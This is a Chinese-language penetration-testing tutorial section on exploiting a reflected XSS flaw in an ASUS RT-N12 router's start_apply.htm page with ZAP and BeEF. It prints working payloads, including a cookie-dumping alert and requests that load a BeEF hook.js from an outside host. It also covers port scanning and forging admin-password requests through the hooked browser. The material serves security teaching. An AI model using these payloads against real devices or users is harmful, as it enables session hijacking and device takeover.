## 4.6 利用XSS
XSS是一类攻击，可以在可信站点的上下文中执行和注入来自不可信源的任意JavaScript代码。当攻击者在web应用中的一个易受攻击的参数时，并且该应用将内容呈现给用户之前执行动态内容而未验证或输出编码字符， 就认为XSS攻击发生了。XSS攻击利用浏览器传输有效攻击负载，由于浏览器相信代码是可信的。有三类XSS攻击类型：反射型（最常见）、存储型、基于DOM的。当参数数据被复制并且不修改内容的情况下直接输出到应用的响应中，称为反射型XSS漏洞。当应用允许参数输入的数据可以存储在后端数据库中，则认为是存储型XSS漏洞。当来自于参数的数据直接通过JavaScript函数传进Dom元素，则认为是**文档对象模型（Document Object Model）**。


攻击者利用XSS漏洞可以完成以下事情：
<br>&emsp;&emsp;&emsp; * 关键log数据
<br>&emsp;&emsp;&emsp; * 攻击受害者的局域网
<br>&emsp;&emsp;&emsp; * 代理受害者的web流量,也就是大家知道的**man-in-the-browser(MITB)**
<br>&emsp;&emsp;&emsp; * 窃取或者修改应用cookie，进行session劫持
<br>&emsp;&emsp;&emsp; * 修改受害者应用的外观
<br>&emsp;&emsp;&emsp; * 饶过CSRF安全控制

为了成功攻击一个受害者，攻击者需要进行一种社会工程技术让用户执行恶意请求。XSS攻击的常用社会工程学方法有以下几种：
<br>&emsp;&emsp;&emsp; * 带有恶意JavaScript的假冒网站，并链接到他的页面
<br>&emsp;&emsp;&emsp; * 通过邮箱发送恶意webURL
<br>&emsp;&emsp;&emsp; * 使用URL缩短工具隐藏URL

在每个场景下，初始URL会连接到可信的受害者站点，并在用户不知情的情况下执行恶意JavaScript代码。本节中，我们将会学习发现和利用反射型XSS漏洞，该漏洞可以获取受害者浏览器全部控制权。

### 4.6.1 Getting ready

本节中，我们将会使用OWASP ZAP，**浏览器利用空间（BeEF）**和一个易受攻击的RT-N12 ASUS 路由器。BeEF可以通过[http://beefproject.com](http://beefproject.com)安装或者使用已经默认安装了BeEF的Kali Linux虚拟机。

### 4.6.2 How to do it...

当想要找到反射型XSS漏洞时，我们开始通过观察参数输入行为来看数据是否被反射会用户。像OWASP ZAP和Burp Suite这样的Web代理可以用他们的扫描引擎帮助自动化发现过程。

<br>&emsp;&emsp;&emsp;1. 浏览应用找到潜在的反射值。常常探测的是诊断页，故障页或者可以改变后端服务和运行在设备上的守护进程的配置页，下图展示了发现web漏洞的潜在的开始点：



<br>&emsp;&emsp;&emsp;2. 在ZAP中代理HTTP请求，并且在该页面中改变配置。你可以在下图中看到POST请求的body参数：



<br>&emsp;&emsp;&emsp;3. 浏览start_apply.htm源代码，发现一些可能的通过拼接JavaScript代码来操作的动态变量。这些变量像是POST请求的body是参数，但是也能够通过GET请求发送。下面是start_apply.htm中的next_page参数可能被注入的值的代码片段：



使用XSS负载的fuzz参数，我们可以手动注入XSS负载，并且可以使用像SecList这样的词表来生成负载，这样可以帮助我们加速发现漏洞的过程。

<br>&emsp;&emsp;&emsp;4. 基于ZAP中的fuzz结果，我们看到了一些HTTP响应中的反射型参数，如下图所示：



<br>&emsp;&emsp;&emsp;5. 我们可以看到next_page参数反射了完整的fuzz输入值(<script>(document.head.childNodes[3].next)</script>),如下图中HTTP请求响应的代码段所示：



<br>&emsp;&emsp;&emsp;6. 让我们手动在浏览器中输入这个反射型采纳数来观察响应：



从响应看起来我们破坏了一些JavaScript代码。可能需要进行编码或者检查payload的长度。我们需要调整编码字符，并且检查JavaScript代码保证我们的函数的开始和结束可以被利用。

<br>&emsp;&emsp;&emsp;7. 使用基础的弹窗XSS负载，记得在start_apply.htm的源码，参数值是以下格式：
```javascript
'"+next_page+"'
```

<br>&emsp;&emsp;&emsp;8. 我们使用ZAP的编解码器工具来调整我们的基础XSS负载，如下图所示：




<br>&emsp;&emsp;&emsp;9. 提供web接口插入URL编码值到易受攻击的参数，现在我们的弹窗代码成功执行了。在挖掘更复杂的XSS负载之前，尝试在一个弹窗中显示一个整数是最好的方法：



<br>&emsp;&emsp;&emsp;10. 现在，让我们更深一步，使用一下负载在弹窗中dump任意的cookie，如下图所示：

```JavaScript
'%2balert(document.cookie)%2b'
```

<br>&emsp;&emsp;&emsp;11. 我们现在可以看到cookie值 IoTCookbook=1234567890 被渲染在我们的浏览器中，使用的负载是 alert(documnet.cookie)：



完美！ 我们现在知道我们可以在这个点做一个基础的XSS负载注入。我们是幸运的，没有遇到任何的限制和过滤。让我们来看看如何伤害更多，插入BeEF的hook 负载到易受攻击的参数中。毕竟，在浏览器中弹窗能暴露多少风险呢。

#### 4.6.2.1 BeEF XSS负载使用简介

BeEF是一个利用web浏览器的工具，可以使用客户端攻击向量和社会工程学技术通过易受攻击的应用参数在受害者环境下完成攻击。当受害者执行它的可以进行更深入利用的负载时，BeEF将会hook一个或者多个浏览器。本节将会扩展我们发现的XSS漏洞，并让他执行BeEF的hook，然和，接触一些基本使用。

BeEF功能强大，可以证明XSS的威力：

<br>&emsp;&emsp;&emsp;1. 现在，我们已经演示了XSS的基本利用，我们准备将他提升一个档次，并尝试使用相同格式的BeEF负载，将后面的两个作为以下请求：

```javascript
http://192.168.1.1/start_apply.htmnext_page= '+<script src=//172.16.100.139:3000/hook.js></script>+'
```

<br>&emsp;&emsp;&emsp;2. 使用这个GET请求，我们可以从下面的图中看到请求的响应已经被搞成一个破坏的页面：



<br>&emsp;&emsp;&emsp;3. 再一次，我们破坏了一些JavaScript代码片段，预防浏览器执行部署在外部的BeEF服务器上的JavaScript代码。机会是我们需要终止意向页面，并开始我们自己的
\<script\>标签来请求我们外部的BeEF服务器。我们可以尝试添加一个开或者闭的script标签到一个参数上，添加引号，然后尝试使用以下GET请求调用我们的BeEF hook负载：

```javascript
http://192.168.1.1/start_apply.htmnext_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

使用XSS负载的fuzz参数，我们可以手动注入XSS负载，并且可以使用像SecList这样的词表来生成负载，这样可以帮助我们加速发现漏洞的过程。

<br>&emsp;&emsp;&emsp;4. 当我们发送GET请求并查看浏览器响应，它似乎也输出了被破坏的JavaScript；然而，如果我们看一下ZAP，我们可以看到浏览器转发请求到我们的BeEF服务器了：



<br>&emsp;&emsp;&emsp;5. 下面是在ZAP的历史tab中显示的BeEFhook的请求：



<br>&emsp;&emsp;&emsp;6. 从BeEF服务器看，我们已经成功地用我们的负载hook了浏览器，如下图所示：




#### 4.6.2.2 hook受害浏览器的BeEF基本使用

下面是hook一个受害者浏览器时，BeEF的基本使用：

<br>&emsp;&emsp;&emsp;1. 受害者浏览器被hook了之后，BeEF快速地枚举运行在受害者电脑上的信息，下面是展示BeEF捕获的内容截图：



<br>&emsp;&emsp;&emsp;2. 利用主机的详细信息，BeEF使用很多利用模块在受害主机上，如下图所示：



<br>&emsp;&emsp;&emsp;3.  在网络种类下有个模块可以扫描受害者的端口，用于辅助后利用阶段：




##### 4.6.2.2.1 代理通过浏览器的流量

BeEF最受喜欢的一个特性是使用受害机器作为代理发生伪造请求，并且代表当前用户：

<br>&emsp;&emsp;&emsp;1. 可以右击hook的受害者作为代理，导航到Rider选项，并使用伪造请求(**Forge Request**)选项，如下图所示：



<br>&emsp;&emsp;&emsp;2. 拷贝一个已知的HTTP请求，并使用受害者的浏览器发生伪造请求，例如像创建或者改变一个管理员用户的密码，如下图所示：



<br>&emsp;&emsp;&emsp;3.  在**History**选项下查看伪造的请求响应：



<br>&emsp;&emsp;&emsp;4.  当双击伪造的请求后，；另外的tab页会打开，并显示伪造请求的路径，并且HTTP响应也会显示，如下图所示：




在本节中，我们展示了如何发现易受攻击的XSS参数，浏览编码考虑，解析JavaScript代码，讨论基本的XSS负载的使用，和利用BeEF hook完成对跨站脚本攻击的利用。当BeEF hook一受害者时，我们有许多的可能而且可以使用很多利用技术。

### 4.6.3 There's more

可以在BeEF的 Github Wiki页面[https://github.com/beefproject/beef/wiki](https://github.com/beefproject/beef/wiki) 查看更详细的BeEF信息和更高级的特性。
### 4.6.4 See also

<br>&emsp;&emsp;&emsp; * 当尝试利用XSS进行弹窗之外的攻击时，会发现很多警告。常常，我们需要调整编码来逃避过滤器或者缩短负载来躲避字符限制。可以在OWASP的XSS Wike:[https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))页面查看躲避过滤器和XSS的很多信息。XSS wiki页面也会链接到一些XSS测试指南文档，例如躲避过滤器。
